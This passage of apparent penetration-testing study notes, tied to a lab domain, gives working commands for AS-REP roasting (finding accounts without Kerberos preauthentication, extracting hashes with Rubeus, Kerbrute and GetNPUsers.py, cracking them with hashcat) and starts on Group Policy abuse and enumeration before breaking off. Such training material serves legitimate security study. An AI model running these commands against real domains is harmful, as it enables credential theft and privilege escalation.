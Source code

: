 **Enumerating for DONT_REQ_PREAUTH Value using Get-DomainUser**

```powershell
Get-DomainUser -PreauthNotRequired | select samaccountname,userprincipalname,useraccountcontrol | fl
```

**Retrieving AS-REP in Proper Format using Rubeus**

```powershell
.\Rubeus.exe asreproast /user:mmorgan /nowrap /format:hashcat
```

**Retrieving the AS-REP Using Kerbrute**

```shell
kerbrute userenum -d inlanefreight.local --dc 172.16.5.5 /opt/jsmith.txt 
```

**GetNPUsers.py**

```shell
GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -usersfile valid_ad_users 
```

**Cracking the Hash Offline with Hashcat**

```shell
hashcat -m 18200 ilfreight_asrep /usr/share/wordlists/rockyou.txt 
```

### Group Policy Object (GPO) Abuse

GPO misconfigurations can be abused to perform the following attacks:

- Adding additional rights to a user (such as SeDebugPrivilege, SeTakeOwnershipPrivilege, or SeImpersonatePrivilege)
- Adding a local admin user to one or more hosts
- Creating an immediate scheduled task to perform any number of actions

We can enumerate GPO information using many of the tools we've been using throughout this module such as PowerView and BloodHound. We can also use [group3r](https://github.com/Group3r/Group3r), [ADRecon](https://github.com/sense-of-security/ADRecon), [PingCastle](https://www.pingcastle.com/), among others, to audit the security of GPOs in a domain.

Using the [Get-DomainGPO](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainGPO) function from PowerView, we can get a listing of GPOs by name.

**Enumerating GPO Names with PowerView**

```powershell
Get-DomainGPO |select displayname
```

**Enumerating GPO Names with a Built-In Cmdlet**

```powershell
Get-GPO -All | Select DisplayName
```

**Enumerating Domain User GPO Rights**
